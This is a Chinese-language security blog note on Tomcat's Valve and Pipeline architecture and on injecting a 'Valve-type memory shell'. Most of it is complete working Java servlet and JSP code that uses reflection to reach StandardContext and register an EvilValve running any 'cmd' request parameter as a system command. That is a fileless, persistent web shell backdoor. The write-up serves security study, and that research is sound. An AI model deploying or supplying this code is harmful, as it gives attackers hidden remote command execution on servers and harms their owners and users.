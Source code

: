 ```yaml
---
created: '22/02/18'
title: Tomcat-Valve型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Valve型内存马

## 参考文章
- https://su18.org/post/memory-shell/#tomcat-valve-%E5%86%85%E5%AD%98%E9%A9%AC

## 引子
实际上在我们调试Tomcat-Filter型内存马的时候，我们查看调用栈会发现一些有趣的东西:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220218104259.png)

我们会发现这里存在一堆的invoke方法的调用，那么这些Valve究竟是什么呢？


## Valve与Pipeline
> Tomcat 在处理一个请求调用逻辑时，是如何处理和传递 Request 和 Respone 对象的呢？为了整体架构的每个组件的可伸缩性和可扩展性，Tomcat 使用了职责链模式来实现客户端请求的处理。在 Tomcat 中定义了两个接口：Pipeline（管道）和 Valve（阀）。这两个接口名字很好的诠释了处理模式：数据流就像是流经管道的水一样，经过管道上个一个个阀门。
> 
> Pipeline 中会有一个最基础的 Valve（basic），它始终位于末端（最后执行），封装了具体的请求处理和输出响应的过程。Pipeline 提供了 `addValve` 方法，可以添加新 Valve 在 basic 之前，并按照添加顺序执行。

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220218104446.png)

> Tomcat 每个层级的容器（Engine、Host、Context、Wrapper），都有基础的 Valve 实现（StandardEngineValve、StandardHostValve、StandardContextValve、StandardWrapperValve），他们同时维护了一个 Pipeline 实例（StandardPipeline），也就是说，我们可以在任何层级的容器上针对请求处理进行扩展。这四个 Valve 的基础实现都继承了 ValveBase。这个类帮我们实现了生命接口及MBean 接口，使我们只需专注阀门的逻辑处理即可。

同时我们可以观察Valve的实现，比如StandardEngineValve:
```java
final class StandardEngineValve extends ValveBase {
//...
 public final void invoke(Request request, Response response)
       //...
    }
}
```
可以发现其直接继承了ValveBase，而且在invoke方法中我们能拿到request和response。

## 内存马实现流程分析
根据上述的描述我们发现，Valve也可能作为内存马，首先我们需要考虑如何拿到StandardPipeline，实际上根据我们调用栈和上文分析很容易发现，在StandardContext里就存在`getPipeline()`方法，所以我们老样子只需要拿到StandardContext即可。

最后总结下Filter型内存马(即动态创建filter)的步骤:
1. 获取StandardContext
2. 继承并编写一个恶意valve
3. 调用`StandardContext.addValve()`添加恶意valve实例

具体代码实现如下:
java版本:
```java
package top.longlone.servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

class EvilValve extends ValveBase {

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("111");
        try {
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        } catch (Exception e) {

        }
    }
}

public class EvilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            Field reqF = req.getClass().getDeclaredField("request");
            reqF.setAccessible(true);
            Request request = (Request) reqF.get(req);
            StandardContext standardContext = (StandardContext) request.getContext();
            standardContext.getPipeline().addValve(new EvilValve());
            resp.getWriter().write("inject success");
        } catch (Exception e) {
        }
    }
}
```
在`System.out.println("111");`下断点调试,可以看到恶意Valve注入成功，AuthenticatorBase紧跟着的就是我们的EvilValve:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220218110100.png)

jsp版本:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>  
<%@ page import="org.apache.catalina.core.ApplicationContext" %>  
<%@ page import="org.apache.catalina.core.StandardContext" %>  
<%@ page import="javax.servlet.*" %>  
<%@ page import="javax.servlet.annotation.WebServlet" %>  
<%@ page import="javax.servlet.http.HttpServlet" %>  
<%@ page import="javax.servlet.http.HttpServletRequest" %>  
<%@ page import="javax.servlet.http.HttpServletResponse" %>  
<%@ page import="java.io.IOException" %>  
<%@ page import="java.lang.reflect.Field" %>  
<%@ page import="org.apache.catalina.Wrapper" %>  
<%@ page import="org.apache.catalina.connector.Request" %>  
<%@ page import="org.apache.catalina.valves.ValveBase" %>  
<%@ page import="org.apache.catalina.connector.Response" %>  
  
<%  
 class EvilValve extends ValveBase {  
  
 @Override  
 public void invoke(Request request, Response response) throws IOException, ServletException {  
 System.out.println("111");  
 try {  
 Runtime.getRuntime().exec(request.getParameter("cmd"));  
 } catch (Exception e) {  
  
 } } }%>  
  
<%  
 // 更简单的方法 获取StandardContext  
 Field reqF = request.getClass().getDeclaredField("request");  
 reqF.setAccessible(true);  
 Request req = (Request) reqF.get(request);  
 StandardContext standardContext = (StandardContext) req.getContext();  
  
 standardContext.getPipeline().addValve(new EvilValve());  
  
 out.println("inject success");  
%>
```